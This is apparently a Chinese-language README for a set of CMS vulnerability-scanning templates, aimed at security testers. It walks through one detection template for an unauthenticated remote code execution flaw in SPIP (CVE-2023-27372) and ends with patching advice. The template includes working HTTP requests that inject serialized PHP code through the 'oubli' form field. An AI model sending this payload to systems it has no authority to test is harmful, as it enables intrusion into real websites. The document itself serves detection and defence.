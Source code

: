# CMS 系统安全模板分类说明

本目录聚焦于主流内容管理系统（CMS）平台的安全风险，包括 WordPress、Joomla、Drupal、SPIP 等。模板涵盖远程代码执行、文件上传、SQL 注入、认证绕过等典型漏洞，帮助安全测试人员快速定位和验证相关风险。

---

## 分类说明

- **Joomla/Drupal**：全球最常用的 CMS，常见风险包括插件/模块漏洞、认证绕过、文件上传、SQL 注入等。
- **SPIP**：法国流行的开源 CMS，近年来多次曝出高危远程代码执行漏洞。
- **其他 CMS**：如 Magento、TYPO3、Concrete5 等，风险点多为第三方扩展和默认配置不当。

---

## 典型漏洞模板举例

### SPIP 远程代码执行漏洞（CVE-2023-27372）

**模板文件**：`CVE-2023-27372.yaml`

#### 漏洞简介

SPIP 4.2.1 之前版本由于对表单值的序列化处理不当，导致攻击者可在无需认证的情况下，通过特定表单字段注入恶意 PHP 代码，实现远程命令执行（RCE）。

#### 漏洞原理

该漏洞利用了 SPIP 在处理 `oubli` 字段时的反序列化缺陷。攻击者首先通过 GET 请求获取 CSRF token，然后在 POST 请求中将恶意 PHP 代码作为序列化字符串注入 `oubli` 字段。由于服务端未正确校验和过滤，最终导致代码被执行。

#### 检测逻辑（YAML内容解析）

```yaml
http:
  - raw:
      - |
        GET /spip.php?page=spip_pass HTTP/1.1
        Host: {{Hostname}}
      - |
        POST /spip.php?page=spip_pass HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        page=spip_pass&formulaire_action=oubli&formulaire_action_args={{csrf}}&oubli=s:19:"<?php phpinfo(); ?>";
    matchers-condition: and
    matchers:
      - type: word
        part: body_2
        words:
          - "PHP Extension"
          - "PHP Version"
          - "<!DOCTYPE html"
        condition: and
      - type: status
        status:
          - 200
    extractors:
      - type: regex
        name: csrf
        group: 1
        regex:
          - "name='formulaire_action_args'[^>]*value='([^']*)'"
        internal: true
        part: body_1
```

- 第一步 GET 请求获取 CSRF token。
- 第二步 POST 请求携带恶意序列化 payload，尝试执行 `phpinfo()`。
- 响应中若包含 PHP 相关信息且状态码为 200，则判定漏洞存在。

#### 防护建议

- 升级 SPIP 至官方修复版本（3.2.18、4.0.10、4.1.8、4.2.1 及以上）。
- 对所有用户输入进行严格校验，避免反序列化任意数据。
- 关闭不必要的调试和开发接口，最小化攻击面。

---

如需了解更多模板细节，请参考各 YAML 文件头部的 `description` 字段与官方安全公告。